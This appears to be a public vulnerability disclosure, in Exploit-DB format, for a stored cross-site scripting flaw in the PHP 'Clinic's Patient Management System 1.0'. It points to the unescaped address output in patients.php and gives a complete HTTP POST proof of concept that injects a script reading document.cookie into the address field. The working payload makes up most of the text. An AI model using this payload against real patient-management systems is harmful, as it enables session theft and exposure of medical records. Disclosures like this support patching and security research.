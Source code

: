 ## Title: Clinic's Patient Management System 1.0 Stored Cross-Site Scripting
## Author: HeZhenKai
## Date: 07.15.2022
## Vendor: https://www.sourcecodester.com/users/tips23
## Software:
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code


#Description：
#The Line 10 of patients.php sends unvalidated data to a web browser, which
can result in the browser executing malicious code.

#echo $patients->address;

#PoC：
```
POST /pms/patients.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/pms/patients.php
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=cqb92r4af78v6laio9hqjs261t
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 160

patient_name=1&address=1%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&cnic=1&date_of_birth=07%2F21%2F2022&phone_number=1&gender=Male&save_Patient=
```
